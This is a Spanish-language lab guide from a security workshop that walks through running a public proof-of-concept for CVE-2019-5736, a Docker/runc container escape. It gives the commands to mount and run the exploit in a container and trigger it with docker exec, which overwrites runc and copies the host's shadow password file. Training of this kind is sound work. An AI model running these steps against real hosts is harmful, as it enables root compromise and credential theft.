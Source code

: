 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**

Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
2. [Ejecución](#id12)

## Requisitos

## Requisitos

-Descargar la máquina virtual que servirá de host de docker e importar en virtualbox.
-Descargar repositorio del laboratorio 
````
git clone https://github.com/SidertiaLabs/contenedoresyseguridad.git
````

1. Ir al directorio Parte1
````
cd ~/contenedoresyseguridad/Seccion1DockerEscape
````
2. Backup el archivo runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>

## 1 CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, SIEMPRE teniendo en cuenta que un atacante ha conseguido una shell en uno de los contenedores:

1. Se ejecuta el exploit en el contenedor quedando a la escucha esperando a que el binario de la shell del propio contenedor sea ejecutado.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por el payload diseñado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.

Al realizar un exec desde fuera del contenedor, el exploit sobreescribe runC por el payload diseñado

En este caso, se a ejecutar el exploit en la instalación docker por defecto versión 18.09.1.
Ya se encuentra todo preparado para escapar de un contenedor sobreescribiendo runC y ejecutando el payload como root.

<div id='id12'></div>

## 2 Ejecución

1. **En el Host**. Para simular a un atacante, se ejecutará una shell y se mapeará el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion1DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion1DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado, se debe cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No se debe cerrar ni salir de la shell del punto 2. A continuación, ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Se puede observar que en la **shell de contcomprometido** obtiene la salida overwritten succesfully.
**En el host** se puede visualizar el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.

Se debe restaurar el binario runc:
````
sudo cp /usr/sbin/runc.backup /usr/sbin/runc
````
